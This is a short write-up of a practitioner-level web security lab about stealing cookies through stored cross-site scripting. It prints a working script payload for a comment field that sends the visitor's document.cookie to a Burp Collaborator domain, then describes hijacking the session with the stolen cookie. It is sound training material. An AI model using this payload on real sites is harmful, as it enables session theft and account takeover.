

### Exploiting cross-site scripting to steal cookies : PRACTITIONER

---

The idea is to use the Burp Suite Collaborator server to host a domain that can receive requests that contain the victim user cookie.
- We want to upload a script that once visited by a user, takes the cookies of that user and sends it to our domain.

First, head to Collaborator and press on copy to clipboard to obtain the domain.
```
ydfa57m120i4eumqf8396fs67xdo1hp6.oastify.com
```

There is a stored XSS vulnerability in the comments, so going there and uploading the following payload:
```
<script>
fetch('https://ydfa57m120i4eumqf8396fs67xdo1hp6.oastify.com', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

After submitting the comment with this as the body, go to collaborator.



We see the `session` cookie is returned.

> Replacing our session cookie with the one returned completes the lab.

---
